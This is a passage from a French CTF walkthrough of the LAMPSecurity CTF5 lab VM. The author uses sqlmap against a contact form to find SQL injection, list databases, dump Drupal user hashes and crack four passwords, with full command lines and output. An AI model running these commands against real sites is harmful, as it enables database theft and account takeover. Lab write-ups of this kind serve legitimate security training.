

« _Smell that? You smell that? SQL injections, son. Nothing else in the world smells like that. I love the smell of SQL injections in the morning._ »

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d"

--snip--

[12:34:56] [INFO] testing connection to the target URL
[12:34:56] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:34:56] [INFO] testing if the target URL content is stable
[12:34:56] [INFO] target URL content is stable
[12:34:56] [INFO] testing if POST parameter 'name' is dynamic
[12:34:56] [WARNING] POST parameter 'name' does not appear to be dynamic
[12:34:56] [INFO] heuristic (basic) test shows that POST parameter 'name' might be injectable (possible DBMS: 'MySQL')
[12:34:56] [INFO] heuristic (XSS) test shows that POST parameter 'name' might be vulnerable to cross-site scripting (XSS) attacks
[12:34:56] [INFO] testing for SQL injection on POST parameter 'name'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé ```name``` est vulnérable à la fois aux injections SQL et aux XSS (alias _Cross-Site Scripting_... on y reviendra). Il y a de très fortes chances pour que les autres paramètres soient eux aussi vulnérables, c'est reparti pour un tour ! Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs``` et tant qu'à faire, autant récupérer tout le contenu de la base de données ```--dump-all```.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dbs -v0

--snip--
web server operating system: Linux Fedora 8 or 7 or 6 (Moonshine or Zod or Werewolf)
web application technology: PHP 5.2.4, Apache 2.2.6
back-end DBMS: MySQL >= 5.0.0
[13:13:13] [INFO] resumed: information_schema
[13:13:13] [INFO] resumed: contacts
[13:13:13] [INFO] resumed: drupal
[13:13:13] [INFO] resumed: mysql
[13:13:13] [INFO] resumed: test
--snip--
```

_Nota Bene : pour une raison que je ne saurais expliquer, SQLMap n'est pas en mesure de récupérer le contenu de l'unique table ```contact``` de la base de données ```contacts```. Pour rappel, cette table est censée contenir l'ensemble des informations de la mailing-list de Phake Organization (nom de famille, numéro de téléphone, adresse e-mail et nom de l'entreprise). Pas de panique cependant, il est toujours possible de la récupérer par d'autres moyens._

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D contacts -T contact

--snip--

[13:31:13] [INFO] fetching columns for table 'contact' in database 'contacts'
[13:31:13] [INFO] used SQL query returns 5 entries
[13:31:13] [INFO] resumed: id
[13:31:13] [INFO] resumed: int(10) unsigned
[13:31:13] [INFO] resumed: name
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: email
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: phone
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] resumed: org
[13:31:13] [INFO] resumed: varchar(45)
[13:31:13] [INFO] fetching entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] the SQL query provided does not return any output
[13:31:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:31:13] [INFO] fetching number of entries for table 'contact' in database 'contacts'
[13:31:13] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:31:13] [INFO] retrieved: 
[13:31:13] [WARNING] unable to retrieve the number of entries for table 'contact' in database 'contacts'
```

Tant pis ! Au moins SQLMap aura pu récupérer la liste des utilisateurs de Drupal... ainsi que ce qui semble être des mots de passe hashés.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dump -D drupal -T users

--snip--
[13:50:50] [INFO] fetching columns for table 'users' in database 'drupal'
[13:50:50] [INFO] used SQL query returns 19 entries
[13:50:50] [INFO] retrieved: uid
[13:50:50] [INFO] retrieved: int(10) unsigned
[13:50:50] [INFO] retrieved: name
[13:50:50] [INFO] retrieved: varchar(60)
[13:50:50] [INFO] retrieved: pass
[13:50:50] [INFO] retrieved: varchar(32)
[13:50:50] [INFO] retrieved: mail
[13:50:50] [INFO] retrieved: varchar(64)
--snip--
[13:50:50] [INFO] retrieved: jennifer
[13:50:50] [INFO] retrieved: e3f4150c722e6376d87cd4d43fef0bc5
--snip--
[13:50:50] [INFO] retrieved: patrick
[13:50:50] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
--snip--
[13:50:50] [INFO] retrieved: andy
[13:50:50] [INFO] retrieved: b64406d23d480b88fe71755b96998a51
--snip--
[13:50:50] [INFO] retrieved: loren
[13:50:50] [INFO] retrieved: 6c470dd4a0901d53f7ed677828b23cfd
--snip--
[13:50:50] [INFO] retrieved: amy
[13:50:50] [INFO] retrieved: e5f0f20b92f7022779015774e90ce917
--snip--
[13:50:50] [INFO] recognized possible password hashes in column 'pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
--snip--
[13:50:50] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:50:50] [INFO] cracked password 'lorenpass' for user 'loren'
[13:50:50] [INFO] cracked password 'newdrupalpass' for user 'andy'
[13:50:50] [INFO] cracked password 'password' for user 'patrick'
[13:50:50] [INFO] cracked password 'temppass' for user 'amy'
--snip--
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : quatre mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le Drupal ```/events/``` en tant que ```loren```, ```andy```, ```patrick``` ou encore ```amy```, et permet surtout de conclure ce _walkthrough_ sur LAMPSecurity CTF5.